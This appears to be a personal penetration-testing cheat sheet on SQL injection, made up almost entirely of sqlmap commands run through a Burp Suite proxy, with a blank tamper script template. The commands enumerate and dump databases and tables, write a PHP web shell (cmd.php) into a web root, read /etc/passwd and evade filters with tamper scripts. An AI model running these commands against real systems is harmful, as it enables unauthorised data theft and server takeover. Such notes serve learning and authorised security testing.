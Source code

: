 ```yaml
---
title: "SQL Injection"
date: 2024-6-30
tags: ["sqlmap", "sqli", "sql injection", "burpsuite"]
---
```


---
### sqlmap

<div>

```bash
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

</div>

<br>

<div>

```bash
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```bash
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```bash
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```bash
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```bash
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```bash
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```bash
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```bash
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

</div>

#### Technique

<div>

```
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

</div>

#### Advance sqlmap

<div>

```bash
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```bash
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```bash
# Check privileges
sqlmap -r request --privileges
```

```bash
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```bash
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

</div>

#### tamper.py template

<div>

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

</div>

<small>*Note: create an empty \_\_init\_\_.py in the same folder*</small>

<br>